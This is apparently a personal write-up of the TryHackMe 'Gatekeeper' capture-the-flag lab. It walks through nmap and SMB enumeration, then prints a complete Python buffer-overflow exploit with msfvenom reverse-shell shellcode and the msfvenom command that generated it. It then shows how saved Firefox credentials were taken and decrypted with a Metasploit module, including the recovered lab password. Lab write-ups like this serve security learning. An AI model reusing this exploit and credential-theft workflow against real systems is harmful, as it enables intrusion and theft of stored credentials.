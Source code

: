 ```yaml
---
title: "Gatekeeper Writeup THM"
description: "My writeup of the TryHackMe room [Gatekeeper](https://tryhackme.com/room/gatekeeper)"
date: 2024-01-03T16:00:00+01:00
image: https://images.unsplash.com/photo-1580047750144-2c7790adf461?q=80&w=2670&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
math:
license:
hidden: false
comments: true
draft: false
tags:
    - Windows
    - Privilege Escalation
    - Buffer Overflow
categories:
    - Room
    - Medium
---
```


First of all we do a nmap scan:

```bash
nmap 10.10.211.241
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-03 08:03 EST
Nmap scan report for 10.10.211.241
Host is up (0.058s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
31337/tcp open  Elite
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49161/tcp open  unknown
49167/tcp open  unknown
```

First of all I am going to enumerate SAMBA

```bash
smbclient -L 10.10.211.241

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        Users           Disk

smbclient //10.10.211.241/Users
smb: \> ls
  .                                  DR        0  Thu May 14 21:57:08 2020
  ..                                 DR        0  Thu May 14 21:57:08 2020
  Default                           DHR        0  Tue Jul 14 03:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:54:24 2009
  Share                               D        0  Thu May 14 21:58:07 2020

                7863807 blocks of size 4096. 3876514 blocks available
```

In the share directory I have found an exe file, which I am going to transfer in my windows machine.

I setted up my windows machine with Immunity Debugger+ mona.py, and I wrote a script to gain inital access.

I found the offset by writing in the prompt the output of this command:

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 700
```

Then after the crash I wrote in the immunity prompt

```bash
!mona findmsp -distance 700
```

The results will give you the offset.

I found out the bad chars and jump point with mona too.

msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "<badchars>" -f c

I then added some NOPs and wrote this python script:

```bash
import socket

ip = "10.10.98.109"
port = 31337

offset = 146
overflow = "A" * offset
retn = "\xc3\x14\x04\x08"
padding = "\x90" * 16
payload = ("\xdb\xd4\xbb\xde\xb4\xa5\xcc\xd9\x74\x24\xf4\x58\x29\xc9"
"\xb1\x52\x31\x58\x17\x03\x58\x17\x83\x1e\xb0\x47\x39\x62"
"\x51\x05\xc2\x9a\xa2\x6a\x4a\x7f\x93\xaa\x28\xf4\x84\x1a"
"\x3a\x58\x29\xd0\x6e\x48\xba\x94\xa6\x7f\x0b\x12\x91\x4e"
"\x8c\x0f\xe1\xd1\x0e\x52\x36\x31\x2e\x9d\x4b\x30\x77\xc0"
"\xa6\x60\x20\x8e\x15\x94\x45\xda\xa5\x1f\x15\xca\xad\xfc"
"\xee\xed\x9c\x53\x64\xb4\x3e\x52\xa9\xcc\x76\x4c\xae\xe9"
"\xc1\xe7\x04\x85\xd3\x21\x55\x66\x7f\x0c\x59\x95\x81\x49"
"\x5e\x46\xf4\xa3\x9c\xfb\x0f\x70\xde\x27\x85\x62\x78\xa3"
"\x3d\x4e\x78\x60\xdb\x05\x76\xcd\xaf\x41\x9b\xd0\x7c\xfa"
"\xa7\x59\x83\x2c\x2e\x19\xa0\xe8\x6a\xf9\xc9\xa9\xd6\xac"
"\xf6\xa9\xb8\x11\x53\xa2\x55\x45\xee\xe9\x31\xaa\xc3\x11"
"\xc2\xa4\x54\x62\xf0\x6b\xcf\xec\xb8\xe4\xc9\xeb\xbf\xde"
"\xae\x63\x3e\xe1\xce\xaa\x85\xb5\x9e\xc4\x2c\xb6\x74\x14"
"\xd0\x63\xda\x44\x7e\xdc\x9b\x34\x3e\x8c\x73\x5e\xb1\xf3"
"\x64\x61\x1b\x9c\x0f\x98\xcc\xa9\xdd\xb6\x78\xc6\xe3\xb6"
"\x91\x4a\x6d\x50\xfb\x62\x3b\xcb\x94\x1b\x66\x87\x05\xe3"
"\xbc\xe2\x06\x6f\x33\x13\xc8\x98\x3e\x07\xbd\x68\x75\x75"
"\x68\x76\xa3\x11\xf6\xe5\x28\xe1\x71\x16\xe7\xb6\xd6\xe8"
"\xfe\x52\xcb\x53\xa9\x40\x16\x05\x92\xc0\xcd\xf6\x1d\xc9"
"\x80\x43\x3a\xd9\x5c\x4b\x06\x8d\x30\x1a\xd0\x7b\xf7\xf4"
"\x92\xd5\xa1\xab\x7c\xb1\x34\x80\xbe\xc7\x38\xcd\x48\x27"
"\x88\xb8\x0c\x58\x25\x2d\x99\x21\x5b\xcd\x66\xf8\xdf\xed"
"\x84\x28\x2a\x86\x10\xb9\x97\xcb\xa2\x14\xdb\xf5\x20\x9c"
"\xa4\x01\x38\xd5\xa1\x4e\xfe\x06\xd8\xdf\x6b\x28\x4f\xdf"
"\xb9")
postfix = ""

buffer =  overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((ip, port))
    s.send(bytes(buffer + "\r\n", "latin-1"))
  print("Done!")
```

After gaining initial access and wondering around a bit I noticed that the only possible thing to do would be getting credentials from Firefox, I used the metasploit tool `post/multi/gather/firefox_creds`

After that I ran firefox_decrypt and got the username and password:

```bash
python3 firefox_decrypt.py  firefox/loot

2024-01-03 10:00:37,134 - WARNING - profile.ini not found in firefox/loot
2024-01-03 10:00:37,134 - WARNING - Continuing and assuming 'firefox/loot' is a profile location

Website:   https://creds.com
Username: 'mayor'
Password: '8CL7O1N78MdrCIsV'
```
